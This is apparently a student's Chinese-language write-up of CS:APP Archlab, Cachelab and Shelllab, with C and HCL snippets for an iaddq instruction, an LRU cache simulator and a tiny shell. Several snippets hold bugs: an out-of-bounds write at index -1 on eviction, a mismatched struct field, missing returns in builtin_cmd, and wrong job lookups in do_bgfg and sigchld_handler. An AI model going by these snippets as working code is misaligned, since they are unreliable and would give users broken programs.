

结果应该是`0xcba`，这与`%rax`结果相符。

### Part B

在 `./sim/seq` 下完成这一部分。这一部分需要完成的是扩展指令集（参考书上4.51和4.52），加入`iaddq`指令。

`iaddq`指令的作用是：将一个立即数`V`加到寄存器`rB`中。那接下来主要就是需要修改`seq-full.hcl`这个文件。

一条指令在处理器中分为 Fetch，Decode，Execute，Memory 和 Write back 5个阶段，下面分阶段来修改。

#### I.	Fetch

这一阶段涉及到的三个信号为：`instr_valid`（判断指令是否合法）、`need_regids`（判断指令中是否包括寄存器）、`need_valC`（判断指令中是否包括立即数）。



#### II.	Decode

这一阶段涉及到的四个信号为：`srcA`（数据来源A应该从哪个寄存器来）、`srcB`（数据来源B应该从哪个寄存器来）、`dstE`（数据E应该写到哪个寄存器中）、`dstM`（数据M应该写到哪个寄存器中）。

由于我们的`iaddq`只需要用到`srcB`（有一个数据来自于`rB`）和`dstE`（结果存放于`rB`），所以做如下修改：



#### III.	Execute

这一阶段涉及到的四个信号为：`aluA`（操作数A应该从哪来）、`aluB`（操作数B应该从哪来）、`alufun`（执行算术种类从哪里来）、`set_cc`（是否需要修改条件码）。

`iaddq` 进行的运算是`valB + valC`，于是应当修改



#### IV.	Others

这条指令不涉及 Memory 和 Write back 阶段，所以无需修改了。

#### 测试

接下来，按照 Writeup 的指导开展指令测试。

> 这里还遇到一些编译上的版本不匹配问题，参考网上的做法改动，就可以正常编译。做法如下：
>
> - Makefile 第 20 行改为
>
> ```bash
> TKINC=-isystem /usr/include/tcl8.6
> ```
>
> - Makefile 第 26 行改为
>
> ```c
> CFLAGS=-Wall -O2 -DUSE_INTERP_RESULT
> ```
>
> - 注释掉`/sim/pipe/psim.c 806、807 line`和`/sim/seq/ssim.c 844、845 line`。（glibc 新版中弃用了 `matherr()` ）

1. Testing your solution on a simple Y86-64 program.




2. Retesting your solution using the benchmark programs.





3. Performing regression tests.





三次测试全部成功。

### Part C

在 `./sim/pipe` 下完成这一部分。这一部分要做的是：修改 `sim/pipe/pipe-full.hcl` 和 `sim/pipe/ncopy.ys` 的内容，优化程序运行效率。

- 利用新加入的`iaddq`指令，可以把原来自增、自减需要的多条指令缩减为一条，提高效率；
- 利用循环展开的方法，减少在条件分支上所消耗的判断次数；
- 利用 CPU 的流水线特性，提前为下一步读取内存内容，减少气泡（Bubble）的产生，提高效率。

这一部分自由度比较大，一些小的优化就不列出来了。代码位于`./sim/pipe/ncopy.ys`，最终结果：





### 实验总结

本实验较为深入地让我掌握了 `x86` 汇编使用，结合 COD 上学到的流水线设计知识，我体会到如果利用处理器的一些流水级特性，可以合理利用汇编程序排布来优化性能。这是对性能极致的追求。

另外，由于实验发布日期较老，现在已经有了比 `x86` 更加简洁、好懂的 `RISC-V` 架构，我觉得也可以在 `RISC-V` 指令集架构上重新做一做这个实验。

## 5 Cachelab

### Part A

这一部分的目标是用 C 语言来实现一个 LRU 策略的 Cache 模拟器。其输入来自 `valgrind` 这个小软件，其能输出执行一个程序引起的内存变化。后面做测试用到的测试文件是通过这个小软件已经生成好的了，测试时只需要运行测试框架即可。

参数格式：

```shell
$ ./csim [-hv] -s <s> -E <E> -b <b> -t <tracefile>
```

具体设计（结合 Writeup 的一些提示）：

- 把 Cache 就看成一个数组，每个元素都是一个结构体 `cache_group`。

```C
struct cache_line {
    int valid; // 有效位
    int tagl; // 标记
    int last_use; // 最后使用的时间
};
struct cache_group {
    struct cache_line* addr; // 第一行的地址，有多少行依据全局参数E来定
};
struct cache {
    struct cache_group* addr; // 第一组的地址，有多少组依据全局参数S来定
};
```

- 用 `getopt` 函数快速解析命令行输入。
- 在阅读 trace 文件时，用 `fscanf` 函数。
- 动态分配内存。
- 为了实现 LRU 替换算法，由于不方便使用链表，所以引入时间戳，每次遍历 Cache 寻找 tag 时，自动把当前最近最少使用的行号计算出来。

最后只要输出命中数、不命中数和驱逐数即可，所以对偏移之类的不用考虑。

**核心**代码（只保留思路，省略变量声明以及动态分配的内存的回收语句）如下：

```c
void parse(int argc, char** argv) {
    while ((arg_name = getopt(argc, argv, "hvs:E:b:t:")) != -1) {
        if (arg_name == 's') {
            s = atoi(optarg);
        }
        // ... Omitted E and b
        else if (arg_name == 't') {
            fp = fopen(optarg, "r");
        }
        else exit(1);
    }
}

int visit(long address, int time) {
    // 访问
    long tag = address >> (s + b);
    int group = address >> b & ((1 << s) - 1);

    struct cache_group _group = _cache.addr[group];

    int evict = 0;
    int empty = -1;

    for (int line = 0; line < E; line++) {
        if (_group.addr[line].valid) {
            if (_group.addr[line].tag == tag) {
                HI++;
                _group.addr[line].last_use = time; // 更新当前块最后一次用到的时间
                return 0;
            }

            if (_group.addr[evict].last_use <= _group.addr[line].last_use) {
                evict = line; // 一并做找最小值
            }
        }
        else empty = line;
    }

    // 未命中
    MI++;
    if (empty != -1) {
        // 有空的可用
        _group.addr[empty].valid = 1;
        _group.addr[empty].tag = tag;
        _group.addr[empty].last_use = time;
        return 1;
    }
    else {
        // 需要替换
        EV++;
        _group.addr[evict].tag = tag;
        _group.addr[empty].last_use = time;
        return 2;
    }
}

int simulate() {
    // 依s, E动态分配内存构建Cache，省略
    int time = 0;
    while (fgets(buffer, sizeof(buffer), fp) != NULL) {
        if (buffer[0] == 'I') continue; // 不需处理的情况

        sscanf(buffer, " %s %lx,%d", operation, &address, &size);
        if (operation[0] == 'M') HI++;
        if (operation[0] != 'S' && operation[0] != 'L' && operation[0] != 'M') return -1;
        int ret = visit(address, time);
        
        time++;
    }
}

int main(int argc, char** argv) {
    parse(argc, argv);
    simulate();
    printf("hits:%d missed:%d evictions:%d\n", HI, MI, EV);
    return 0;
}
```

测试结果（用最长的文件做测试用例）：





### Part B

这一部分要求我们实现一个矩阵转置函数，要求尽可能多的利用 Cache（即增加命中率）。由于预估到这个优化过程比较漫长，我就简单的说一下自己的思路。

给我们的矩阵是不确定大小的，但是给我们的 Cache 是确定大小的，由于 Cache 的特性，我们总有办法让一个数组比 Cache 小，以获得最高的命中率，这样我们就可以把一个大的矩阵分块，因为转置是一个对称的操作，所以这种分块是合理的。

不仅是读上的顺序有讲究，写回新矩阵的顺序也有讲究，因为写同样关系到 Cache 的命中率，在我们处理小矩阵的时候，只处理小矩阵范围内的写回，这样可以维持住 Cache 的高命中率。

## 6 Shelllab

### 实验目的

修改 `tsh.c` 文件，完善下面七个函数，使其成为一个 tiny shell。

- `eval`，解析命令行。
- `builtin_cmd`，识别并处理内建命令：`quit`，`fg`，`bg`和`jobs`。
- `do_bgfg`，实现`bg`和`fg`内建命令。
- `waitfg`，等待一个前台作业结束。
- `sigchld_handler`：捕捉`SIGCHLD`信号。
- `sigint_handler`：捕捉`SIGINT`信号。
- `sigtstp_handler`：捕捉`SIGTSTP`信号。

### I. eval

这个函数的主要作用是根据用户的输入进行执行，也是我们主循环中最重要的函数。主要要求是：

- If the user has requested a built-in command (quit, jobs, bg or fg) then execute it immediately. 

- Otherwise, fork a child process and run the job in the context of the child. 
- If the job is running in the foreground, wait for it to terminate and then return.

同时根据书上的讲述，这里要小心并发竞争问题，以及进程组的管理问题。这里语法分析函数已经给我们提供，其返回值为是否后台作业，我们只需要组织一下整体框架即可。

需要注意的是：

- 引入信号 mask 来避免在一些情况中收到信号，错误地执行。（解决并发竞争）
- 区分子进程组和 tsh 进程组，避免 kill 子进程组把 tsh 一起 kill 了。

**核心**代码（只保留思路，省略变量声明以及错误检测）如下：

```C
void eval(char *cmdline) {
    int bg = parseline(buffer, argv);
	sigset_t mask_all, mask_one, prev_one;
    sigfillset(&mask_all); // 初始化信号集合，将信号集合设置为所有信号的集合
    sigemptyset(&mask_one); // 初始化信号集合set，将set设置为空
    sigaddset(&mask_one, SIGCHLD); // 将信号SIGCHLD加入到信号集合之中

    if (!builtin_cmd(argv)) {
        sigprocmask(SIG_BLOCK, &mask_one, &prev_one); // 防止addjob和信号处理竞争
        pid_t pid = fork();
        if (pid == 0) {
            // 子进程
            // 区分子进程组和tsh进程组，避免kill子进程组把tsh一起kill了
            sigprocmask(SIG_SETMASK, &prev_one, NULL);
            execve(argv[0], argv, environ);
        }
        // 父进程
        sigprocmask(SIG_BLOCK, &mask_all, NULL); // 锁住所有信号
        addjob(jobs, pid, bg ? BG : FG, cmdline);
        if (!bg) {
            // 前台进程
            sigprocmask(SIG_SETMASK, &prev_one, NULL);
            waitfg(pid); // 等待前台作业结束
        }
        else {
            sigprocmask(SIG_SETMASK, &prev_one, NULL); // 阻塞，防止被中断，造成数据不一致问题
        }
    }
    return;
}
```

### II. builtin_cmd

这里比较简单，因为各个内建指令的执行函数都在本函数外部定义，所以只需要调用即可。

```C
int builtin_cmd(char **argv) {
    if (strcmp(argv[0], "quit") == 0) {
        exit(0);
    }
    else if (strcmp(argv[0], "fg") == 0 || strcmp(argv[0], "bg") == 0) {
        do_bgfg(argv);
    }
    if (strcmp(argv[0], "jobs") == 0) {
        listjobs(jobs);
    }
    else return 0;     /* not a builtin command */
}
```

### III. do_bgfg

这个函数用来修改作业的 fg 和 bg 性质。要点如下：

- 利用已有函数 `getjobpid` 来获得 JCB 结构体，来修改信息。
- 如果设置为前台作业，需要 `waitfg` 来等待前台作业结束。

核心代码如下：

```C
void do_bgfg(char **argv) {
    int id;
    struct job_t* job = NULL;
    if (sscanf(argv[1], "%d", &id) > 0) {
        job = getjobpid(jobs, id);
    }
    else if (sscanf(argv[1], "%d", &id) > 0) {
        job = getjobjid(jobs, id);
    }
    else return; // 命令格式错误

    // 发送信号：发送到进程组采用负数
    kill(-(job->pid), SIGCONT);
    if (strcmp(argv[0], "bg") == 0) {
        job->state = BG;
    }
    else {
        job->state = FG;
        waitfg(job->pid);
    }
    return;
}
```

### IV. waitfg

这个函数用于等待前台作业完成。Writeup 中提示我们：In `waitfg`, use a busy loop around the sleep function. 

这里不直接 pause 的原因是外部信号可能会恰好在执行 pause 前到来，这样就会造成竞争，之后程序就将一直 pause 等待这个已经来过的信号（自然不会再来了）。

```C
void waitfg(pid_t pid) {
    while (pid == fgpid(jobs)) {
        sleep(0);
    }
    return;
}
```

### V. sigchld_handler

这个函数是 `SIGCHLD` 信号的响应函数。 

- 正常终止；
- 受到信号中止；
- 被信号暂时挂起。

为了防止 `deletejob` 被中断，我们仍需要用 mask 的方法来禁止信号。

核心代码如下：

```C
void sigchld_handler(int sig) {
    sigset_t mask_one, prev_one;
    sigfillset(&mask_one);
    while ((pid = waitpid(-1, &status, WNOHANG | WUNTRACED)) > 0) {
        sigprocmask(SIG_BLOCK, &mask_one, &prev_one);
        if (WIFEXITED(status) || WIFSIGNALED(status)) {
            deletejob(jobs, pid);
        }
        else if (WIFSTOPPED(status)) {
            struct job_t* job = getjobjid(jobs, pid);
            job->state = ST;
        }
        sigprocmask(SIG_BLOCK, &prev_one, NULL);
    }
    return;
}
```

### VI. sigint_handler, sigtstp_handler

这两个函数都是用来处理键盘信号的，而且都比较简单，所以放在一起。

- `sigint_handler`用来响应 Ctrl-C 操作，并将该信号发送到所有前台程序；
- `sigtstp_handler`用来捕获响应 Ctrl-Z 操作，并将该信号发送到所有前台程序。

使用 kill 来发送信号即可。

```C
void sigint_handler(int sig) {
    pid_t pid = fgpid(jobs);
    if (pid > 0) {
        kill(-pid, sig);
    }
    return;
}
void sigtstp_handler(int sig) {
    pid_t pid = fgpid(jobs);
    if (pid > 0) {
        kill(-pid, sig);
    }
    return;
}
```

### 实验测试

测试 `test15` 是总的测试，运行这一个以作示例。





可以看到除了一些错误信息打印格式不同外，其他的控制流都相同。

### 实验总结

这个实验是操作系统方面的实验，与我们 OS 课上的实验虽然主题相近（都是写一个 tiny shell）但是功能差别非常大，我觉得完成这个实验对操作系统的理解也是一种补充。比如以下部分：

- 处理并发竞争问题（`addjob`，`deletejob`）；
- 处理进程组问题（作业 job 的抽象）；
- 信号掩盖函数的使用，以及不要用信号计数。

总而言之对 OS 是很好的补充，收获较大。

